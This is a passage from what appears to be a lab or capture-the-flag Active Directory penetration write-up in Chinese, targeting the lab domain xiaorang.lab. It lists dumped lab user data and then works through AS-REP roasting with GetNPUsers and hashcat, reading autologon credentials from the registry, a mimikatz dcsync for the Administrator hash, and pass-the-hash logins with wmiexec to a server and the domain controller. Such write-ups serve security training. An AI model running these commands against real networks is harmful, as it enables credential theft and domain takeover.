| 469 | gongwan@xiaorang.lab       | 18233990398 | GONG WAN        |
| 470 | qijie@xiaorang.lab         | 15631483536 | QI JIE          |
| 471 | shaoting@xiaorang.lab      | 15971628914 | SHAO TING       |
| 472 | xiqi@xiaorang.lab          | 18938747522 | XI QI           |
| 473 | jinghong@xiaorang.lab      | 18168293686 | JING HONG       |
| 474 | qianyou@xiaorang.lab       | 18841322688 | QIAN YOU        |
| 475 | chuhua@xiaorang.lab        | 15819380754 | CHU HUA         |
| 476 | yanyue@xiaorang.lab        | 18702474361 | YAN YUE         |
| 477 | huangjia@xiaorang.lab      | 13006878166 | HUANG JIA       |
| 478 | zhouchun@xiaorang.lab      | 13545820679 | ZHOU CHUN       |
| 479 | jiyu@xiaorang.lab          | 18650881187 | JI YU           |
| 480 | wendong@xiaorang.lab       | 17815264093 | WEN DONG        |
| 481 | heyuan@xiaorang.lab        | 18710821773 | HE YUAN         |
| 482 | mazhen@xiaorang.lab        | 18698248638 | MA ZHEN         |
| 483 | shouchun@xiaorang.lab      | 15241369178 | SHOU CHUN       |
| 484 | liuzhe@xiaorang.lab        | 18530936084 | LIU ZHE         |
| 485 | fengbo@xiaorang.lab        | 15812110254 | FENG BO         |
| 486 | taigongyuan@xiaorang.lab   | 15943349034 | TAI GONG YUAN   |
| 487 | gesheng@xiaorang.lab       | 18278508909 | GE SHENG        |
| 488 | songming@xiaorang.lab      | 13220512663 | SONG MING       |
| 489 | yuwan@xiaorang.lab         | 15505678035 | YU WAN          |
| 490 | diaowei@xiaorang.lab       | 13052582975 | DIAO WEI        |
| 491 | youyi@xiaorang.lab         | 18036808394 | YOU YI          |
| 492 | rongxianyu@xiaorang.lab    | 18839918955 | RONG XIAN YU    |
| 493 | fuyi@xiaorang.lab          | 15632151678 | FU YI           |
| 494 | linli@xiaorang.lab         | 17883399275 | LIN LI          |
| 495 | weixue@xiaorang.lab        | 18672465853 | WEI XUE         |
| 496 | hejuan@xiaorang.lab        | 13256081102 | HE JUAN         |
| 497 | zuoqiutai@xiaorang.lab     | 18093001354 | ZUO QIU TAI     |
| 498 | siyi@xiaorang.lab          | 17873307773 | SI YI           |
| 499 | shenshan@xiaorang.lab      | 18397560369 | SHEN SHAN       |
| 500 | tongdong@xiaorang.lab      | 15177549595 | TONG DONG       |
+-----+----------------------------+-------------+-----------------+
```

将邮箱前的用户名取出

```plain
import re

# 读取数据文件
with open('2.txt', 'r') as file:
    data = file.read()
    print(data)

# 使用正则表达式匹配 email 前的名字
pattern = r'\| \d+ \| (\S+)@'
matches = re.findall(pattern, data)

# 将匹配结果写入到 1.txt 文件中
with open('1.txt', 'w') as file:
    for name in matches:
        file.write(name + '\n')
```

得到

```plain
chenyan
tanggui
buning
beishu
shushi
fuyi
pangcheng
tonghao
jiaoshan
dulun
kejuan
gexin
lugu
guzaicheng
feicai
ranqun
zhouyi
shishu
yanyun
chengqiu
louyou
maqun
wenbiao
weishengshan
zhangxin
chuyuan
wenliang
yulvxue
luyue
ganjian
pangzhen
guohong
lezhong
sheweiyue
dujian
lidongjin
hongqun
yexing
maoda
qiaomei
nongzhen
dongshu
zhuzhu
jiyun
qiguanrou
yixue
chujun
shenshan
lefen
yubo
helianrui
xuanqun
shangjun
huguang
wansifu
fenghong
wanyan
diyan
xiangyu
songyan
fandi
xiangjuan
beirui
didi
zhubin
lingchun
zhenglu
xundi
wansishun
yezongyue
bianmei
shanshao
zhenhui
chengli
yufen
jiyi
panbao
mennane
fengsi
mingyan
luoyou
liangduanqing
nongyan
haolun
oulun
weichipeng
qidiaofang
xuehe
chensi
guihui
fuyue
wangxing
zhengxiao
guhui
baoai
hangzhao
xingye
qianyi
xionghong
zouqi
rongbiao
gongxin
luxing
huayan
duyue
xijun
daiqing
yingbiao
hengteng
changwu
chengying
luhong
tongxue
xiangqian
shaokang
nongzhu
haomei
maoqing
xiai
bihe
gaoli
jianggong
pangning
ruishi
wuhuan
qiaode
mayong
hangda
changlu
liuyuan
chenggu
shentuyun
zhuangsong
chushao
heli
haoming
xieyi
shangjie
situxin
linxi
zoufu
qianqing
qiai
ruilin
luomeng
huaren
yanyangmei
zuofen
manyuan
yuhui
sunli
guansixin
ruisong
qiruo
jinyu
shoujuan
yanqian
changyun
hualu
huanming
baoshao
hongmei
manyun
changwan
wangyan
shijian
ruibei
jingshao
jinzhi
yuhui
zangpeng
changyun
yetai
luoxue
moqian
xupeng
ruanyong
guliangxian
yinbin
huarui
niuya
guwei
qinguan
yangdanhan
yingjun
weiwan
sunduangu
sisiwu
nongyan
xuanlu
yunzhong
gengfei
zizhuansong
ganbailong
shenjiao
zangyao
yangdanhe
chengliang
xudi
wulun
yuling
taoya
jinle
youchao
liangduanzhi
jiagupiao
ganze
jiangqing
jinshan
zhengpubei
cuicheng
qiyong
qizhu
ganjian
yurui
feishu
chenxin
shengzhe
wohong
manzhi
xiangdong
weihui
xingquan
miaoshu
gongwan
qijie
shaoting
xiqi
jinghong
qianyou
chuhua
yanyue
huangjia
zhouchun
jiyu
wendong
heyuan
mazhen
shouchun
liuzhe
fengbo
taigongyuan
gesheng
songming
yuwan
diaowei
youyi
rongxianyu
fuyi
linli
weixue
hejuan
zuoqiutai
siyi
shenshan
tongdong
```

## 攻击域成员二(AS-REP Roasting)

提示了Kerberos，这里参考[https://misakikata.github.io/2020/08/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%A8%AA%E8%A1%8C%E7%A7%BB%E5%8A%A8/。](https://misakikata.github.io/2020/08/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%A8%AA%E8%A1%8C%E7%A7%BB%E5%8A%A8/%E3%80%82)

AS\_REP Roasting是一种对用户账户进行离线爆破的方式，需要关闭预身份验证，而此选项又是默认开启的，所以有一定的限制，默认开启的预身份验证是会记录密码错误次数来防止爆破的，关闭预身份验证后，在进行AS\_REQ之后的时候，KDC不会进行任何验证就将TGT和用该用户Hash加密的Login Session Key返回，由于AS\_REP的数据包中Login Session Key的是由用户Hash进行加密的，因此，可以对获取到的用户Hash加密的Login Session Key进行离线爆破，得到对应用户的明文密码。

使用GetNPUsers来获取用户kerberos票证

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile 1.txt xiaorang.lab/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175258-0740ddfe-b455-1.png)

```plain
hashcat -m 18200 hash.txt rockyou.txt --force
```

得到

```plain
zhangxin@XIAORANG.LAB:strawberry
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175307-0ca02be2-b455-1.png)

这里没想出来，后来看wp说是用BloodHound可以看到`HasSession`

```plain
HasSession：用户与计算机时进行会话时，凭据会保留在内存中，说明yuxuan这个用户登录过WIN2019，很多用户习惯将计算机设置自动登录
```

借图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175318-133d8256-b455-1.png)

所以开启了自动登录，这里可以抓密码。

```plain
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175324-1705c128-b455-1.png)

登录此`yuxuan`用户，用`BloodHound`分析域内关系，发现这个用户滥用了SID历史功能

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175334-1d28887e-b455-1.png)

```plain
SIDHistory是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的SID作为该对象的objectSid，在之前域中的SID会添加到该对象的sIDHistory属性中，此时该对象将保留在原来域的SID对应的访问权限
```

所以直接可以dcsync抓取域管哈希

```plain
lsadump::dcsync /domain:xiaorang.lab /user:Administrator
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175346-240757f6-b455-1.png)

wmiexec登录

```plain
proxychains python3 wmiexec.py xiaorang/Administrator@172.22.6.25 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 -dc-ip 172.22.6.12
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175351-26f059b8-b455-1.png)

## 攻击域控

同理登录域控

```plain
proxychains python3 wmiexec.py xiaorang/Administrator@172.22.6.12 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 -dc-ip 172.22.6.12
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116175355-2976e512-b455-1.png)
